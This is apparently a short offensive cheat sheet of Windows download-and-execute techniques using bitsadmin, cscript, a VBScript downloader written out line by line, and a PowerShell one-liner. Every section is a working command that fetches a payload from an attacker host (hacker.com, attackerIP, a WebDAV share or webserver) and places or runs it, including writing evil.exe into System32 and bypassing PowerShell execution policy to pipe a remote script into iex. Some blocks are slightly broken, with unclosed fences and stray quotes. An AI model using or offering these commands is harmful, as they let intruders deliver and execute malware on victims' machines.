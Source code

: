 **Bitsadmin**

Background Intelligent Transfer Service is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitates asynchronous, prioritized, and throttled transfer of files between machines using idle network bandwidth.

To download files from remote server

```
bitsadmin /transfer hacker http://hacker.com/evil.pe c:\System32\evil.exe
```
We can also execute payload using bitsadmin
```
bitsadmin /addfile hacker http://hacker.com/evil.pe c:\System32\evil.exe
bitsadmin /SetNotifyCmdLine evil.exe /complete hacker | start /B C:\evil.exe"

**Cscript**

cscript.exe is a Microsoft (r) Console Based Script Host from Microsoft Corporation belonging to Microsoft (r) Windows Script Host. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt.

~~~
cscript //E:jscript \\webdavserver\folder\payload.txt
~~~


Create Vbs file for wget
**VbScript wget.vbs**
```

echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs 
echo Err.Clear >> wget.vbs echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET",strURL,False >> wget.vbs echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs 
echo Next >> wget.vbs echo ts.Close >> wget.vbs
```
And excute it 

```
cscript wget.vbs http://attackerIP/hacker.exe hacker.exe
```

** Powershell IEX**

```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
